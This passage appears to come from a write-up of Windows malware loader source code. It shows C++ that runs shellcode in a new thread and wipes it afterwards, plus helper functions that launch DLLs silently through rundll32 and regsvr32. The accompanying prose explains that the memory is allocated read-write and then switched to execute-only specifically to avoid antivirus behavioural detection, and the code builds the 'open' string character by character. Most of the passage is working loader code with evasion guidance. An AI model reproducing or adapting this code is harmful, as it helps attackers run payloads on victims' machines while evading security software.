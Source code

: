 ```
        thread_handle = CreateThread(nullptr, 0, (LPTHREAD_START_ROUTINE)shellcode_mem, nullptr, 0, nullptr);

        if (!thread_handle) {
            DBGPRINT(L"File %s, line %d, CreateThread error %d", __FILEW__, __LINE__, GetLastError());
            break;
        }

        WaitForSingleObject(thread_handle, INFINITE);
    } while (false);

    if (shellcode_mem) {
        memset(shellcode_mem, 0, shellcode_size);
        Memory::Free(shellcode_mem);
    }

    if (thread_handle) {
        CloseHandle(thread_handle);
    }
}
```
Dynamic memory with PAGE_READ_WRITE rights is allocated for the shellcode, the shellcode is copied to the allocated memory, and then the rights of the memory section are changed to PAGE_EXECUTE_READ.
This is done in order to avoid allocating memory with RWX rights, because this will immediately entail a behavioral detection from the antivirus.
Next, a thread is created on the shellcode, if the handle of the thread is valid, WaitForSingleObject is called in order to wait for the end of the execution of the shellcode.
As soon as the shellcode finishes its work, the memory allocated for it will be filled with zeros and freed.

Let's run the DLL: there's nothing complicated here, formatting the string with arguments and passing it in one of the ShellExecute parameters:
```
void RunRundll32(LPCWSTR dll_path, LPCWSTR export_function) {
    WCHAR rundll32[1025] = { 0 };

    if (!ExpandEnvironmentStringsW(L"%WINDIR%\\System32\\rundll32.exe", rundll32, 1024)) {
        DBGPRINT(L"File %s, line %d, ExpandEnvironmentStringsW error %d", __FILEW__, __LINE__, GetLastError());
        return;
    }

    WCHAR args[1025] = { 0 };
    WCHAR open[] = { 'o', 'p', 'e','n', 0, 0 };

    wsprintfW(args, L"%s, %s", dll_path, export_function);
    ShellExecuteW(0, open, rundll32, args, nullptr, SW_HIDE);
}

void RunRegsvr32(LPCWSTR dll_path) {
    WCHAR regsvr32[1025] = { 0 };

    if (!ExpandEnvironmentStringsW(L"%WINDIR%\\System32\\regsvr32.exe", regsvr32, 1024)) {
        DBGPRINT(L"File %s, line %d, ExpandEnvironmentStringsW error %d", __FILEW__, __LINE__, GetLastError());
        return;
    }

    WCHAR args[1025] = { 0 };
    WCHAR open[] = { 'o', 'p', 'e','n', 0, 0 };

    wsprintfW(args, L"/s %s", dll_path);
    ShellExecuteW(0, open, regsvr32, args, nullptr, SW_HIDE);
```